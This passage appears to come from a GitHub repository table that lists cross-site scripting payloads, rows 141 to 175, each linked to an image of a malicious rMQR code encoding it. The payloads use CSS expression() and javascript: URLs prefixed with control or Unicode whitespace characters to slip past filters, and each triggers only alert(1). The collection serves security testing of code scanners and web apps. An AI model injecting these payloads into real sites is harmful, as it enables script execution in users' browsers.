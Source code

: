 | `ABC<div style="x:exp\x00ression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/141.png) |
| `ABC<div style="x:exp\x5Cression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/142.png) |
| `ABC<div style="x:\x0Aexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/143.png) |
| `ABC<div style="x:\x09expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/144.png) |
| `ABC<div style="x:\xE3\x80\x80expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/145.png) |
| `ABC<div style="x:\xE2\x80\x84expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/146.png) |
| `ABC<div style="x:\xC2\xA0expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/147.png) |
| `ABC<div style="x:\xE2\x80\x80expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/148.png) |
| `ABC<div style="x:\xE2\x80\x8Aexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/149.png) |
| `ABC<div style="x:\x0Dexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/150.png) |
| `ABC<div style="x:\x0Cexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/151.png) |
| `ABC<div style="x:\xE2\x80\x87expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/152.png) |
| `ABC<div style="x:\xEF\xBB\xBFexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/153.png) |
| `ABC<div style="x:\x20expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/154.png) |
| `ABC<div style="x:\xE2\x80\x88expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/155.png) |
| `ABC<div style="x:\x00expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/156.png) |
| `ABC<div style="x:\xE2\x80\x8Bexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/157.png) |
| `ABC<div style="x:\xE2\x80\x86expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/158.png) |
| `ABC<div style="x:\xE2\x80\x85expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/159.png) |
| `ABC<div style="x:\xE2\x80\x82expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/160.png) |
| `ABC<div style="x:\x0Bexpression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/161.png) |
| `ABC<div style="x:\xE2\x80\x81expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/162.png) |
| `ABC<div style="x:\xE2\x80\x83expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/163.png) |
| `ABC<div style="x:\xE2\x80\x89expression(javascript:alert(1)">DEF` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/164.png) |
| `<a href="\x0Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/165.png) |
| `<a href="\x0Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/166.png) |
| `<a href="\xC2\xA0javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/167.png) |
| `<a href="\x05javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/168.png) |
| `<a href="\xE1\xA0\x8Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/169.png) |
| `<a href="\x18javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/170.png) |
| `<a href="\x11javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/171.png) |
| `<a href="\xE2\x80\x88javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/172.png) |
| `<a href="\xE2\x80\x89javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/173.png) |
| `<a href="\xE2\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/174.png) |
| `<a href="\x17javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/175.png) |